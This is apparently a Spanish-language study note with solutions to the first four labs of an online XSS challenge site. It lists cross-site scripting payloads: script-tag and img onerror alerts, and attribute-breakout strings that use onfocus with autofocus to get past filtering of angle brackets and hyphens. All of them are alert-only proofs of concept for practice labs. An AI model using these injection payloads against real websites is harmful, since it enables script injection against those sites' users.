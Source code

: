 Tags: #XSS #Challenges

En estos laboratorios debemos de mirar el inspector y el código fuente de la web para saber que debemos ir haciendo. 

* [Ejercicios-XSS](https://sudo.co.il/xss/)
## Lab 0

```javascript
<script>alert("XSS")</script>                 // Script basico 
<img src/onerror=alert(document.domain)>      // Para que nos regres el dominio del sitio web 
```

## Lab 1

```javascript
// Debemos de cerrar el campo valor e inyectar el codigo 

"><script>alert("XSS")</script>"              // Debemos de cerrar el campo 'valor' para poder inyectar codigo JavaScript
" onfocus="alert(1)" autofocus="              // Otra manera de colocar alert 
```

## Lab 2 

```javascript
// Cuando el codigo esta sanitizado, a veces no deja que coloquemos '< o >' por lo que debemos buscar otra manera de colocar alert

" onfocus="alert(1)" autofocus="          
```

## Lab 3 

```javascript
// En este lab nos colocan un guion '-' como forma de sanitizar 

"onfocus="alert(1)" autofocus="
```